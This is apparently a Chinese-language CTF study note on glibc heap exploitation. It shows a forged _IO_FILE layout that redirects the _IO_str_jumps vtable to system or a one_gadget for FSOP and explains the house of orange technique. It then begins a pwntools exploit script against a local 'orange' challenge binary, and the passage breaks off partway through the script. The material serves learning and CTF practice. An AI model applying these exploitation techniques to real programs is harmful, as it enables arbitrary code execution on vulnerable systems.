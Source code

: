    可以得到，我们只需要进行如下设置即可：

   ```c
   _IO_buf_base = 0
   _IO_buf_end = (bin_sh_addr - 100) // 2
   ```

   可以进行如下布局：

   ```c
   ._chain => chunk_addr
   chunk_addr
   {
     file = {
       _flags = 0x0,
       _IO_read_ptr = 0x0,
       _IO_read_end = 0x0,
       _IO_read_base = 0x0,
       _IO_write_base = 0x0,
       _IO_write_ptr = 0x1,
       _IO_write_end = 0x0,
       _IO_buf_base = 0x0,
       _IO_buf_end = (bin_sh_addr - 100) // 2,
         ...
         _mode = 0x0, //一般不用特意设置
         _unused2 = '\000' <repeats 19 times>
     },
     vtable = _IO_str_jumps //chunk_addr + 0xd8 ~ +0xe0
   }
   +0xe0 ~ +0xe8 : system_addr / one_gadget //fp->_s._allocate_buffer
   ```

   在libc2.28之后，使用了malloc和free替代，FSOP也就从此失效了

#### house of orange

##### pre：get a freed chunk

house of orange主要在没有free的情况下通过 *uaf* 修改topchunk的的size，这样子分配chunk的时候，分配一个大于topchunk的chunk，就会把topchunk放到unsortedbin中，然后我们就获得了一个可以利用的chunk

##### FSOP部分

利用 *unsortedbinattack* 修改*IO_list_all* 为 *main_arena+88* ，然后很巧的是，此时 `_chain` 字段正好为 *smallbin* 的开头

##### WP&&exp

```python
from pwn import*
r=process("./orange")

def add(size, content, price, color):
	r.recvuntil("Your choice : ")
	r.sendline('1')
	r.recvuntil("Length of name :")
	r.sendline(str(size))
	r.recvuntil("Name :")
	r.send(content)
	r.recvuntil("Price of Orange:")
	r.sendline(str(price))
	r.recvuntil("Color of Orange:")	#1-7
	r.sendline(str(color))

def show():
	r.recvuntil("Your choice : ")
	r.sendline('2')

def edit(size, content, price, color):
```